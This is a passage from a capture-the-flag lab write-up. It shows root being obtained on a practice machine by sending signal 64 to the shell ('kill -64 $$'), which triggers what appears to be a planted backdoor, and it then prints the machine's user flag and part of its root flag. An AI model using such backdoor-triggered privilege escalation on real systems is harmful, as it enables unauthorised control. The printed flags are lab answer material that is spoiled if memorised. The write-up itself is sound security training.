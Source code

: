 ![Pasted image 20250711173703.png](../../IMAGES/Pasted%20image%2020250711173703.png)

It says that if we send a `64` signal to any `pid`, we can become root, we can exploit this to become root in our ssh session, let's do:

```
kill -64 $$
```

```bash
webadmin-lowpriv@www-infinity:/tmp$ kill -64 $$
webadmin-lowpriv@www-infinity:/tmp$ id
uid=0(root) gid=0(root) groups=0(root),1001(webadmin-lowpriv)
```

![Pasted image 20250711173708.png](../../IMAGES/Pasted%20image%2020250711173708.png)

There it is, we're now root and can read both flags:

```bash
webadmin-lowpriv@www-infinity:/tmp$ cat /home/webadmin-lowpriv/user.txt
THM{c2_servers_have_vulnerabilities_t00}

webadmin-lowpriv@www-infinity:/tmp$ cat /root/root.txt
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@#*****(/****/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@#***&@/,,,,,,,,%@#***@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@&**#(,,,,,,,,,,,,*,,,,,@**/@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@(**/,,,,,,,,,,,,,,,,,,**,,,,/**@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@%**,,,,,,,,,,,,#&@@%*,,,,,,***,,***@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@/**,***,,,,(@/*********/@@,,,,****,**%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@*******,,,/*,*************,,/#,,,******#@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@******,,,,,,******************,,,,,******(@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@******,,,,,**&@@@@@****(@@@@@&***,,,,******%@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(*****,,,,/@@@@@@@@@@***@@@@@@@@@@**,,,******@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@*****,,,/@@@@*****%@****/@#****/@@@@/,,,*****/@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@(***,,,,@@@@@@@@@@@***(&(***@@@@@@@@@@@*,,,****@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@***,,,,@&&@@@@@@@%@@@@@@@@@@@#@@@@@@@#&@*,,,***%@@@@@@@@@@@@@@@@@
```